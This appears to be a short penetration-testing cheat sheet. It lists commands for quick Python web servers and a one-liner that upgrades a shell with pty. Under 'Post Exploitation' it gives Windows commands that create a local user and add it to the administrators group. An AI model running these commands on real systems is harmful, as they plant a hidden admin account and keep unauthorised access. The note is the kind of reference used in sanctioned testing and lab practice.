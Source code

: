 
### Simple Web Servers

python3 -m http.server

python -m SimpleHTTPServer 80


### Shell Upgrade!

python -c "import pty; pty.spawn('/bin/bash')"


### Post Exploitation

Add new user and add to local admin group

> net user gary password /add

> net localgroup administrators gary /add
